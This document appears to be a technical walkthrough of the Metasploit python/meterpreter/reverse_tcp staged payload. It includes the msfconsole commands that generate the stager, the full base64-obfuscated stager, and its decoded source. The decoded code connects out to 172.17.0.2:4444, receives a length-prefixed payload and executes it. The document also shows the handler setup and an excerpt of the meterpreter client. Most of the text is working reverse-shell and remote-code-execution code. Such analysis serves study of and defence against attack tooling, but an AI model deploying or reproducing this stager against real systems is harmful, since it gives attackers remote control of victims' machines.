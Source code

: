 # python/meterpreter/reverse_tcp (staged payload)

## Stager

### Generate
```
msf5> use python/meterpreter/reverse_tcp
msf5 payload(python/meterpreter/reverse_tcp) > generate -f raw -o stager.py
```

### Result
```python
import base64,sys;exec(base64.b64decode({2:str,3:lambda b:bytes(b,'UTF-8')}[sys.version_info[0]]('aW1wb3J0IHNvY2tldCxzdHJ1Y3QsdGltZQpmb3IgeCBpbiByYW5nZSgxMCk6Cgl0cnk6CgkJcz1zb2NrZXQuc29ja2V0KDIsc29ja2V0LlNPQ0tfU1RSRUFNKQoJCXMuY29ubmVjdCgoJzE3Mi4xNy4wLjInLDQ0NDQpKQoJCWJyZWFrCglleGNlcHQ6CgkJdGltZS5zbGVlcCg1KQpsPXN0cnVjdC51bnBhY2soJz5JJyxzLnJlY3YoNCkpWzBdCmQ9cy5yZWN2KGwpCndoaWxlIGxlbihkKTxsOgoJZCs9cy5yZWN2KGwtbGVuKGQpKQpleGVjKGQseydzJzpzfSkK')))
```

Note: the dict is used to apply py2/3 compatibility with regards to decoding strings

#### Base64 Decoded Content
```python
import socket,struct,time
for x in range(10):
	try:
		s=socket.socket(2,socket.SOCK_STREAM) # 2 = socket.AF_INET
		s.connect(('172.17.0.2',4444))        # connect to target IP
		break
	except:
		time.sleep(5)                         # sleep 5 secs after each try
l=struct.unpack('>I',s.recv(4))[0]        # Read the length of the payload into a 4 byte unsigned integer in native byte order
d=s.recv(l)                               # receive data, bufsize=l
while len(d)<l:
	d+=s.recv(l-len(d))
exec(d,{'s':s})                           # provide the socket file descriptor as global var 's' to payload in d
```

## Payload (meterpreter)
The payload is sent when executing the multi/handler exploit module with the
corresponding payload:
```
msf5> use exploit/multi/handler
msf5 exploit(multi/handler) > set payload python/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 127.0.0.1
msf5 exploit(multi/handler) > set lport 4444
msf5 exploit(multi/handler) > exploit
```

The first 4 bytes contain the length of the payload, i.e. 0xd1fb = 53755 bytes.
The python meterpreter client follows (full contents in file `payload.py`).
```
00000000  00 00 d1 fb                                        ....
00000004  23 21 2f 75 73 72 2f 62  69 6e 2f 70 79 74 68 6f   #!/usr/b in/pytho
00000014  6e 0a 69 6d 70 6f 72 74  20 62 69 6e 61 73 63 69   n.import  binasci
00000024  69 0a 69 6d 70 6f 72 74  20 63 6f 64 65 0a 69 6d   i.import  code.im
...
```

Towards the end of the payload, the meterpreter is invoked using the socket
provided by the stager in variable `s`:
```python
...
_try_to_fork = TRY_TO_FORK and hasattr(os, 'fork')
if not _try_to_fork or (_try_to_fork and os.fork() == 0):
    if hasattr(os, 'setsid'):
        try:
            os.setsid()
        except OSError:
            pass
    if HTTP_CONNECTION_URL and has_urllib:
        transport = HttpTransport(HTTP_CONNECTION_URL, proxy=HTTP_PROXY, user_agent=HTTP_USER_AGENT,
                http_host=HTTP_HOST, http_referer=HTTP_REFERER, http_cookie=HTTP_COOKIE)
    else:
        # PATCH-SETUP-STAGELESS-TCP-SOCKET #
        transport = TcpTransport.from_socket(s)
    met = PythonMeterpreter(transport)
    # PATCH-SETUP-TRANSPORTS #
    met.run()
```
